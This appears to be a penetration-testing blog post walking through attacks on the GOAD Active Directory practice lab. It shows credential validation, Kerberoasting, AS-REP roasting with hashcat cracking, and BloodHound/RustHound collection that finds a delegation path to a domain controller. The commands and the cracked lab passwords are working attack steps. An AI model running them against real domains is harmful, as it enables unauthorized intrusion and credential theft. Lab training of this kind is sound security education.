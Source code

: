 ```yaml
---
title: GOAD - Digging Deeper 
date: 2021-08-08 12:00:00
categories: [AD,GOAD]
tags: [goad]
---
```


# Description

In this blog post we will use the infos which we discovered in [GOAD - Enumeration](https://blog.kindel.it/posts/GOAD-Enumeration/)  to dig deeper and gather more data about our target and if we are lucky we're gonna find something valuable 

# User Account

We discovered a user account on our basic enumeration that had it's password documented in the desciption. Let's see if it helps us to uncover new details.

## Check validity

Creds: `north.sevenkingdoms.local/samwell.tarly:Heartsbane`

```bash
cme smb 192.168.56.11 -u 'samwell.tarly' -p 'Heartsbane'
# Validity confirmed by our matching DC  
# ldapsearch should also work and leaves, as far as I'm aware, a smaller footprint
```

# More User Enum

## Kerberoasting

To get a list of kerberoastable accounts of the domain `north.sevenkingdoms.local` we will use the credentials of `samwell.tarly`

```bash
# Obtaining the hashes
impacket-GetUserSPNs 'north.sevenkingdoms.local/samwell.tarly:Heartsbane' -outputfile loot_2/kerberoastable.txt
# Cracking hashes using hashcat
hashcat -m 13100 -a 0 -o loot_2/kerb_cracked.txt loot_2/kerberoastable.txt /usr/share/wordlists/rockyou.txt
# Managed to crack a password jon.snow:iknownothing
```

## Asreproasting

Another option to get our hands on crackable hashes is to check for asrep roastable accounts.  
You could either:
- Check every known account
- Only check those indicated as vulnerable by [Bloodhound](https://github.com/BloodHoundAD/BloodHound)

```bash
# Let's check every account that's currently known to us
impacket-GetNPUsers north.sevenkingdoms.local/ -usersfile loot/north.users.formatted.txt
# brandon.stark has set "DontReqPreAuth"
# Let's crack the hash
hashcat -m 18200 -a 0 -o loot_2/asrep_cracked.txt loot_2/asreproast.txt /usr/share/wordlists/rockyou.txt
# Successfull: brandon.stark:iseedeadpeople
```

# Bloodhound

Let's collect some infos about the domain `north.sevenkingdoms.local` and objects using [Rusthound](https://github.com/OPENCYBER-FR/RustHound). Feel free to use bloodhound-python or any other way you know :)

## Rusthound

Rusthound doesn't collect as much infos as sharphound but should be enough for this blog post

```bash
# Domain north.sevenkingdoms.local
rusthound -d north.sevenkingdoms.local -u 'samwell.tarly@north.sevenkingdoms.local' -p 'Heartsbane' -o ./loot_2/bloodhound -z
# Domain: sevenkindgoms.local
rusthound -d sevenkingdoms.local -u 'samwell.tarly@north.sevenkingdoms.local' -p 'Heartsbane' -o ./loot_2/bloodhound -z
# Domain: essos
FAILED
```

## Visualize

Start neo4j and [Bloodhound](https://github.com/BloodHoundAD/BloodHound)

```bash
sudo neo4j start
# --disable-gpu-sandbox should fix a bug when Bloodhound isn't starting
.jon/BloodHound --disable-gpu-sandbox
```

## Findings

Using [Bloodhound](https://github.com/BloodHoundAD/BloodHound) and it's features we are able to identify a couple of things right away.  
This could help us reduce the noice within the domain as we don't have check every account that we know. We would be able to just retrieve the infos for those three and don't request infos for any other account.

### Kerberoastable Accounts
* sql_svc
* jon.snow

### ASREP Roastable Users
- brandon.stark

### Path to High Value Targets

We owned three users so far `samwell.tarly`, `brandon.stark`,  `jon.snow`. Let's look around in [Bloodhound](https://github.com/BloodHoundAD/BloodHound) and enumerate groups and special permissions that are associated to those accounts.

**Permissions Matrix**

| User          | Groups                                                 | Special                      |
| ------------- | ------------------------------------------------------ | ---------------------------- |
| samwell.tarly | Domain Users, Night Watch                              |                              |
| brandon.stark | Domain Users, Stark, Remote Desktop Users              |                              |
| jon.snow      | Domain Users, Night Watch, Stark, Remote Desktop Users | Constrained Delegation -> DC |

According to our research which we conducted jon.snow is a high value user. We are able to use his credentials to open a remote desktop session and can probably abuse his constrained delegation privileges

![jonsnow-deleg](/assets/img/goad/jonsnow-deleg.png)

In our next blog post we will start pwning systems using our so far collected credentials and get more infos for [Bloodhound](https://github.com/BloodHoundAD/BloodHound).  
